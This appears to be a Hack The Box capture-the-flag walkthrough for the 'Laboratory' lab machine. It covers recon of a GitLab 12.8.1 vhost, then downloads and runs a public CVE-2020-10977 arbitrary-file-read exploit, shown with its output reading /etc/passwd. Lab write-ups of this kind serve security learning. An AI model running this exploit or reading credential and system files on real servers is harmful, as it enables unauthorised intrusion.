 Viewing the webpage:
- Hostname laboratory.htb in the footer
- CEO, Dexter
- Possible User, Dee Dee


2. From the Nmap output we see the vhost 'git.laboratory.htb', found from the certificate; add it to /etc/hosts.
Create a gitlab account, and start to create a project. Under the project settings press 'Members' and from the search box
we find the users 'Dexter McPherson @Dexter' and 'Seven @seven'.

Pressing 'help' we find the version: GitLab Community Edition 12.8.1

After spending hours on the python script found in searchsploit, I finally found;
[root:/git/htb/laboratory]# wget https://raw.githubusercontent.com/thewhiteh4t/cve-2020-10977/main/cve_2020_10977.py

[root:/git/htb/laboratory]# ./cve_2020_10977.py https://git.laboratory.htb test testtest                                          (master✱)
  ----------------------------------
  --- CVE-2020-10977 ---------------
  --- GitLab Arbitrary File Read ---
  --- 12.9.0 & Below ---------------
  ----------------------------------

  [>] Found By : vakzz       [ https://hackerone.com/reports/827052 ]
  [>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t      ]

  [+] Target        : https://git.laboratory.htb
  [+] Username      : test
  [+] Password      : testtest
  [+] Project Names : ProjectOne, ProjectTwo

  [!] Trying to Login...
  [+] Login Successful!
  [!] Creating ProjectOne...
  [+] ProjectOne Created Successfully!
  [!] Creating ProjectTwo...
  [+] ProjectTwo Created Successfully!
  [>] Absolute Path to File : /etc/passwd
  [!] Creating an Issue...
  [+] Issue Created Successfully!
  [!] Moving Issue...
  [+] Issue Moved Successfully!
  [+] File URL : https://git.laboratory.htb/test/ProjectTwo/uploads/007a9bd7ec803ef2c554d3b835bf56bf/passwd

  > /etc/passwd
  ----------------------------------------

  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
